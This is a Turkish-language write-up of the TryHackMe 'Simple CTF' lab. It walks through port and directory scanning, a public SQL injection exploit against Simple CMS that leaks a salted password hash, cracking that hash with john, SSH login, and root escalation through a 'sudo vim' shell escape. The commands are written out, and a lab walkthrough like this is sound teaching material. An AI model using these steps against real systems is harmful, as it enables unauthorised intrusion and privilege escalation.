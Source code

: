 ```yaml
---
title: 'TryHackMe | Simple CTF WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [sql injection, sudo]
render_with_liquid: false
---
```


Bu yazımda, TryHackMe platformunda yer alan “Simple CTF” isimli meydan okumayı çözeceğiz. Öncelikle hedefi tanımak adına nmap ile bir port taraması yapalım. Daha sonra açık portlara ve üzerinde çalışan servislere göre yolumuzu çizmeye başlayabiliriz.

```console
$ nmap -sV -sC -T4 10.10.100.158
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.21.66.61
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Tarama sonucunda 21 (FTP), 80 (HTTP) ve 2222 (SSH) numaralı portların açık olduğunu öğreniyoruz. Ayrıca FTP servisine misafir olarak bağlanabiliyoruz. İçerisinde aşağıdaki mesaj bulunuyor.

```
Dammit man… you’te the worst dev i’ve seen. You set the same pass for the system user, and the password is so weak… i cracked it in seconds. Gosh… what a mess!
```

Sanırım bir hash’i kırdı ve elde ettiği parolanın sistem kullanıcısıyla aynı parolaya sahip olduğunu öğrendi. HTTP servisinde varsayılan Apache sayfası bulunuyor. Kaynak kodunda herhangi bir bilgi bulunmadığından doğrudan dirsearch ile dosya/dizin taraması başlattım.

```console
$ dirsearch -u http://10.10.100.158
...
[13:18:21] 200 -  540B  - /robots.txt
[13:18:26] 301 -  315B  - /simple  ->  http://10.10.100.158/simple/
...
```

Tarama sonucunda simple adında bir dizin olduğunu öğrendik. Bu dizine gittiğimizde “Simple CMS” adında bir web uygulaması ile karşılaşıyoruz. İçerik yönetim sisteminin adı ile sürümünü internette arattıktan sonra [exploit-db](https://www.exploit-db.com/exploits/46635) sitesinde paylaşılmış bir exploit olduğunu öğreniyoruz. Exploit’i python3 üzerinde çalışacak şekilde düzenledikten sonra çalıştırıyor ve kullanıcı bilgilerini buluyoruz.

```console
$ python3 exploit.py -u http://10.10.100.158/simple/
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

Exploit’te hash’i kırmak için bir fonksiyon bulunuyor ama parametresini eklediğimde bir hata ile karşılaşıyorum. Bu hatayı çözemediğimden john ile kırmaya karar verdim. Fonksiyonu aşağıda görüyorsunuz.

```py
def crack_password():
    global password
    global output
    global wordlist
    global salt
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
        beautify_print_try(line)
        if hashlib.md5(str(salt) + line).hexdigest() == password:
            output += "\n[+] Password cracked: " + line
            break
    dict.close()
```

Burada verdiğimiz parola listesindeki parolaları teker teker alıp önceden belirlenmiş bir verinin sonuna ekliyor ve md5 algoritmasını kullanarak şifreliyor. Daha sonra ise sistemdeki hash ile karşılaştırıyor. Hash’i aşağıdaki şekilde bir dosyaya kayıt edelim ve john’u çalıştıralım.

```
0c01f4468bd75d7a84c7eb73846e8d96$1dac0d92e9fa6bb2
```

```console
$ sudo john -form=dynamic='md5($s.$p)' hash --wordlist=Desktop/rockyou.txt
...
Press 'q' or Ctrl-C to abort, almost any other key for status
s****t           (?)     
...
```

Şimdi elde ettiğimiz hash ile SSH servisine bağlanabiliriz. Bağlanmaya çalışmadan önce port'u 2222 olarak ayarladığınızdan emin olun.

```console
$ ssh mitch@10.10.100.158 -p 2222
...
mitch@Machine:~$ ls
user.txt
mitch@Machine:~$ cat user.txt 
G***p!
```

İlk bayrağı bulunduğumuz dizinden alıyoruz. Daha sonra “sudo -l” komutunu kullandığımda vim aracını root haklarıyla çalıştırabileciğimi öğrendim. -c parametresi ile kod çalıştırabiliyoruz.

```console
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
mitch@Machine:~$ sudo /usr/bin/vim -c ':!/bin/bash'
root@Machine:~# cd /root
root@Machine:/root# ls
root.txt
```
